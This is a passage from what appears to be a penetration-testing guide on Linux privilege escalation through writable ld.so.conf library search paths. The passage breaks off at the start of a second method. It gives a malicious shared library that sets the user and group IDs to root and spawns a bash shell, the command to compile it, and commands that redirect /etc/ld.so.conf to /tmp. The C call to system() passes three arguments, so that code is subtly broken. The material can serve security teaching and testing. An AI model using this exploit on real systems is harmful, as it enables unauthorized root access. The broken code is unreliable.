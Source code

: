 ```
include /etc/ld.so.conf.d/*.conf
include /etc/ld.so.conf/*.conf
```

This means that the configuration files in `/etc/ld.so.conf.d/*.conf` will be read. These configuration files point to other folders that will be searched for shared libraries. For example, the contents of `/etc/ld.so.conf.d/libc.conf` is `/usr/local/lib`. This means that the system will look for libraries inside `/usr/local/lib`.

#### Requirements

* Run `ldconfig` as root (can be via SUDO, SUID or a cron job).
* **Write permissions** on the **/etc/ld.so.conf** file, **/etc/ld.so.conf.d** directory or on all **.conf** in the above directory.
* The name of the custom shared library (with `ldd` or `strace`) and the name of the calling function (with `ltrace`).

#### Privilege Escalation

Malicious payload:

{% code title="libcustom.c" %}
```c
#include <stdio.h>
#include <unistd.h>
#include <sys/types.h>

void say_hi(){ // Check the function name with ltrace.
    setuid(0);
    setgid(0);
    system("/bin/bash",NULL,NULL);
}
```
{% endcode %}

Compile it:

```bash
gcc -shared -o /tmp/libcustom.so -fPIC /tmp/libcustom.c
```

{% tabs %}
{% tab title="Priv Esc" %}
### Methods

#### If we have write permissions in the /etc/ld.so.conf file:

```bash
echo -n "/tmp/*.conf" > /etc/ld.so.conf
echo -n "/tmp" > /tmp/test.conf
# Execute/wait for the ldconfig command to be executed to update the routes.
```

#### If we have write permissions on the /etc/ld.so.conf.d/ directory:
